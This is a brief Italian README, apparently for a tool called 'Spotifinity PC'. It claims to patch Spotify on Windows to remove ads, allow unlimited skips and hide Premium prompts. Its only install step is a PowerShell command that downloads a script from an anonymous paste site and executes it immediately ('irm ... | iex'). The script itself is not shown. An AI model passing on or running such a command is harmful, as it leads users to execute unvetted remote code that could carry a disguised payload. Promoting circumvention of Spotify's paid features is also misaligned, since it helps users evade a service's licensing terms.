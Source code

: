 # Spotifinity PC
Ti piace Spotifinity su Android? Ora è su Windows!
## Come funziona?
- Installa l'ultima versione di Spotify
- Applica le varie patch con Spicetify
- Fatto!
## Funzioni
- Niente pubblicità
- Skip illimitati
- Niente banner o tasto Premium
## Installazione
Esegui questo comando in Powershell:
```ps
irm https://pastefy.app/XxHu5LvP/raw | iex
```